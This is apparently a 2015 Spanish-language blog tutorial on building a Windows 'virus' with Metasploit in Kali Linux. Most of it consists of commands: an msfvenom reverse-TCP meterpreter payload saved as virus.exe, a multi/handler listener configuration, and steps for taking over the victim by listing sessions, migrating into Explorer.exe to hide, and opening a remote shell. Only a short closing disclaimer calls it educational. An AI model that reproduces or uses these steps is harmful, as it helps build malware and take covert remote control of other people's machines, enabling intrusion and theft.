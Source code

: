 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux

Publicado el 9 de agosto de 2015 por David

## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe
'-p': Especifica el payload a utilizar.
'-a': Define la arquitectura que utilizará el virus.
'--platform': Determina la plataforma en la que actuará el virus.
'-o': Establece el directorio donde se guardará el virus.
'-f': Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.116
set LPORT 9999
exploit -j

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando 'sessions -i' para ver las sesiones activas y conectarte a la máquina atacada:
'sessions -i 1'

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como 'Explorer.exe' usando el comando 'migrate'.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
'shell'

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.
